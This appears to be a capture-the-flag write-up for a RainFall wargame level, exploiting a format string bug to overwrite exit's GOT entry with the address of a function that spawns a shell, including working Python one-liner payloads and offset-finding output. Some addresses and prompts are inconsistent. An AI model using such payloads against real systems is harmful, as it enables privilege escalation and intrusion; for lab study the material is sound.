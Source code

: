```
evel5@localhost's password: 
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level5/level5
```

Again, we get the fgets + printf combo
There is a call to system /bin/sh, but the function is never called.

The technique we used previously, that was all about return pointer override, cannot be used now since the normal code path ends on an exit.

ltrace, and all others calls visible from ltrace, are function calls outside of the binary, only the pointer to this code is in ours.

So as long as we still have our printf exploit, we should be able to write at the address storing the pointer

It seems to be at 0x08049838, both findable with ghidra or objdump -R

Instead of calling exit, we would like to call the o function, its address is 0x080484a4

0x08049838
0x080484a4 or 134513828 in decimal 
We want to write \xa4\x84\x04\x08 at \x28\x98\x04\x08

```
level4@RainFall:~$ python -c 'print("\x38\x98\x04\x08" + "%134513824d%12$n")'| ./level4
```

But first lets find our input string index

```
./level5 
AAAA%x AAAA%x AAAA%x AAAA%x AAAA%x AAAA%x AAAA%x AAAA%x AAAA%x AAAA%x AAAA%x AAAA%x
AAAA200 AAAAb7fd1ac0 AAAAb7ff37d0 AAAA41414141 AAAA41207825 AAAA25414141 AAAA41412078 AAAA78254141 AAAA41414120 AAAA20782541 AAAA41414141 AAAA41207825
```

it's index number 4 so 
```
level5@RainFall:~$ python -c 'print("\x38\x98\x04\x08" + "%134513824d%4$n")'| ./level5
```